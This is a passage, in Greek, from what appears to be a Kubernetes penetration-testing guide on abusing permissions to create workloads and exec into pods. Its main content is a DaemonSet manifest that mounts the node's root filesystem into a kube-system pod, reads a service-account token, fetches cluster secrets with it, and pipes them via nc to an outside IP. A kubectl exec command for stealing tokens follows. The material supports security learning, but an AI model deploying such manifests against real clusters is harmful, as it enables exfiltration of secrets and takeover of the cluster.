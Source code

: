 ### **Δημιουργία/Επιδιόρθωση Αναπτύξεων, Daemonsets, Statefulsets, Replicationcontrollers, Replicasets, Jobs και Cronjobs**

Είναι δυνατόν να καταχρηστείτε αυτές τις άδειες για να **δημιουργήσετε ένα νέο pod** και να κλέψετε προνόμια όπως στο προηγούμενο παράδειγμα.

Το παρακάτω yaml **δημιουργεί ένα daemonset και εξαγάγει το τεκμήριο του SA** μέσα στο pod:
```yaml
apiVersion: apps/v1
kind: DaemonSet
metadata:
name: alpine
namespace: kube-system
spec:
selector:
matchLabels:
name: alpine
template:
metadata:
labels:
name: alpine
spec:
serviceAccountName: bootstrap-signer
automountServiceAccountToken: true
hostNetwork: true
containers:
- name: alpine
image: alpine
command: ["/bin/sh"]
args: ["-c", 'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000']
volumeMounts:
- mountPath: /root
name: mount-node-root
volumes:
- name: mount-node-root
hostPath:
path: /
```
### **Pods Exec**

**`pods/exec`** είναι ένας πόρος στο Kubernetes που χρησιμοποιείται για **εκτέλεση εντολών σε ένα κέλυφος μέσα σε ένα pod**. Αυτό επιτρέπει να **εκτελέσετε εντολές μέσα στα containers ή να αποκτήσετε ένα κέλυφος μέσα**.

Επομένως, είναι δυνατόν να **μπείτε μέσα σε ένα pod και να κλέψετε το token του SA**, ή να μπείτε σε ένα προνομιούχο pod, να δραπετεύσετε στον κόμβο, και να κλέψετε όλα τα tokens των pods στον κόμβο και (κατ)χρησιμοποιήσετε τον κόμβο:
```bash
kubectl exec -it <POD_NAME> -n <NAMESPACE> -- sh
```
### port-forward
